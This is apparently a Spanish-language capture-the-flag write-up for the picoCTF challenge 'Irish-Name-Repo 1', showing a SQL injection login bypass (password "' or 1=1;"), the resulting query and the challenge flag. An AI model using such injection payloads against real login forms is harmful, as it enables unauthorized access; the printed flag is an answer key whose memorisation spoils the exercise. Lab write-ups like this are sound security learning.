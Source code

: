 #  Irish-Name-Repo 1

## Descripcion
There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!

## Accesos
There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?

Try to think about how the website verifies your login.

## Solucion
## Pasos a seguir

Con el ispector vemos el campo oculto y cambiamos el valor a 1
para poder ver la consulta SQL

username: admin 
password: ' or 1=1;
SQL query: SELECT * FROM users WHERE name='admin ' AND password='' or 1=1;'

Your flag is: picoCTF{s0m3_SQL_f8adf3fb}